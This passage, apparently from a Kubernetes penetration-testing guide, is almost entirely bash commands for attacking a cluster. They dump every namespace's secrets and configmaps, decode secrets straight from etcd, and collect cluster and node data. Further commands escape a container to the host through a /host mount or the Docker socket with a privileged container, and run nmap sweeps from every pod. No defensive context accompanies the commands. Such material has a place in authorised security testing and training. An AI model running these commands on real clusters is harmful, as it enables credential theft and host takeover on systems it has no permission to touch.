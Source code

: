 #### Secret and ConfigMap Extraction
```bash
# Extract all secrets
for ns in $(kubectl get namespaces -o jsonpath='{.items[*].metadata.name}'); do
    echo "Namespace: $ns"
    kubectl get secrets -n $ns -o json > secrets-$ns.json
    kubectl get configmaps -n $ns -o json > configmaps-$ns.json
done

# Extract etcd data directly
etcdctl get /registry/secrets --prefix --keys-only | while read key; do
    echo "Key: $key"
    etcdctl get "$key" --print-value-only | base64 -d
done
```

#### Node and Cluster Information
```bash
# Gather cluster information
kubectl cluster-info dump > cluster-info.json
kubectl get nodes -o json > nodes.json
kubectl get all --all-namespaces -o json > all-resources.json

# Extract node kubelet certificates
for node in $(kubectl get nodes -o jsonpath='{.items[*].metadata.name}'); do
    kubectl get node $node -o json | jq '.status.addresses'
done
```

### Lateral Movement

#### Container-to-Host Escape
```bash
# Check for host filesystem mounts
mount | grep -E "(/host|/var/run/docker.sock|/proc|/sys)"

# Escape via host process namespace
if [ -f /host/etc/passwd ]; then
    echo "Host filesystem accessible at /host"
    chroot /host /bin/bash
fi

# Docker socket exploitation
if [ -S /var/run/docker.sock ]; then
    # Create privileged container with host filesystem
    docker run --privileged --pid=host --net=host --ipc=host \
      -v /:/host -it alpine chroot /host /bin/bash
fi
```

#### Network Discovery
```bash
# Kubernetes service discovery
kubectl get services --all-namespaces
kubectl get endpoints --all-namespaces

# Network policy enumeration
kubectl get networkpolicies --all-namespaces
kubectl describe networkpolicy --all-namespaces

# Pod-to-pod communication testing
for pod in $(kubectl get pods -o jsonpath='{.items[*].metadata.name}'); do
    kubectl exec $pod -- nmap -sn 10.0.0.0/8
done
```
